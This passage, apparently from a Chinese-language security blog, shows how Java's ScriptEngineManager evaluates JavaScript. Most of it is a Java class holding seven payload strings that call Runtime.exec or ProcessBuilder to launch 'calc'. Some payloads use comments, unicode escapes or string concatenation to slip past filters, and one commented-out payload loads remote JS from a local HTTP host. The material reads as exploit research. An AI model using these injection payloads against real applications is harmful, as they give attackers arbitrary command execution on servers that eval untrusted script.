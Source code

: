 介绍到这里又突然想到了其他表达式类的执行。

### <a class="reference-link" name="ScriptEngineManager"></a>ScriptEngineManager

通过ScriptEngineManager这个类可以实现Java跟JS的相互调用，虽然Java自己没有eval函数，但是ScriptEngineManager有eval函数，并且可以直接调用Java对象，也就相当于间接实现了Java的eval功能。

```
package shell.ScriptEngineManager;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;

public class test `{`
    public static void main(String[] args) throws Exception`{`
        String test = "print('hello word!!');";
        String payload1 = "java.lang.Runtime.getRuntime().exec(\"calc\")";
        String payload2 = "var a=exp();function exp()`{`var x=new java.lang.ProcessBuilder; x.command(\"calc\"); x.start();`}`;";
        String payload3 = "var a=exp();function exp()`{`java.lang./****/Runtime./***/getRuntime().exec(\"calc\")`}`;";
        String payload4 = "\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0052\u0075\u006e\u0074\u0069\u006d\u0065.getRuntime().exec(\"calc\");";
        String payload5 = "var a= Java.type(\"java.lang\"+\".Runtime\"); var b =a.getRuntime();b.exec(\"calc\");";
        String payload6 = "load(\"nashorn:mozilla_compat.js\");importPackage(java.lang); var x=Runtime.getRuntime(); x.exec(\"calc\");";
        //兼容Rhino功能 https://blog.csdn.net/u013292493/article/details/51020057
        String payload7 = "var a =JavaImporter(java.lang); with(a)`{` var b=Runtime.getRuntime().exec(\"calc\");`}`";
//        String payload8 = "var scr = document.createElement(\"script\");scr.src = \"http://127.0.0.1:8082/js.js\";document.body.appendChild(scr);exec();";
        eval(payload7);
    `}`
    public static void eval(String payload)`{`
        payload=payload;
        ScriptEngineManager manager = new ScriptEngineManager(null);
        ScriptEngine engine = manager.getEngineByName("js");
        try `{`
            engine.eval(payload);
        `}` catch (Exception e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```

然后自己突发奇想，思考能不能远程加载js代码？然后执行远程js代码里面的exp。参考**payload8**

```
function exec()`{`    
    var a=exp();function exp()`{`var x=new java.lang.ProcessBuilder; x.command("calc"); x.start();`}`;
`}`
```
